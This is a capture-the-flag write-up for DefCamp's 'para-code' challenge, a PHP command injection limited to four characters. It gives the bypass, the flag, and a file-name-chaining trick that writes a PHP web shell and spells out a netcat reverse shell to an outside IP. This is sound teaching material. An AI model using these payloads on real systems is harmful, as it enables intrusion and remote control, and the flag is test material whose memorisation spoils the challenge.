 # DefCamp CTF - para-code

## Description
Command injecion 4 characters limited
```php
if (strlen($_GET['start']) < 5){
  echo shell_exec($_GET['start']);
}
```

If we can inject `cat *`, we could read all files in the directory but this command has 5 characters so it's doesn't work.

## Bypass
```bash
# using m4(same as cat)
m4 *
```

**flag**: `791b21ee6421993a8e25564227a816ee52e48edb437909cba7e1e80c0579b6be`


## Extended

**In bash, write file input from stdin**:
```bash
>cmd.php
#> <?php system('id'); ?>
cat cmd.php # <?php system('id'); ?>
```

**From that, we got**:
```bash
>php # newline - end command here!
>ex.\\
>ind\\
>\ \\
>cat\\

ls -t>_

sh _
# hello
```

`_` file:
```bash
cat _
#_
#cat\
# \
#ind\
#ex.\
#php
#index.php
```



Sure all we need is just `m4 *`, but showing stream flow and filename open a new page for RCE, example with command injection limited to 5 characters:
```bash
# form
>nc\\
>19\\
>2.\\
>16\\
>8.\\
>1.\\
>1.\\
>\ \\
>-e\\
>\\\\
#.....
ls -t>_
# ....
sh _ # bash nc 192.168.1.1 8080 -e /bin/sh
```

# References:
https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge-v2
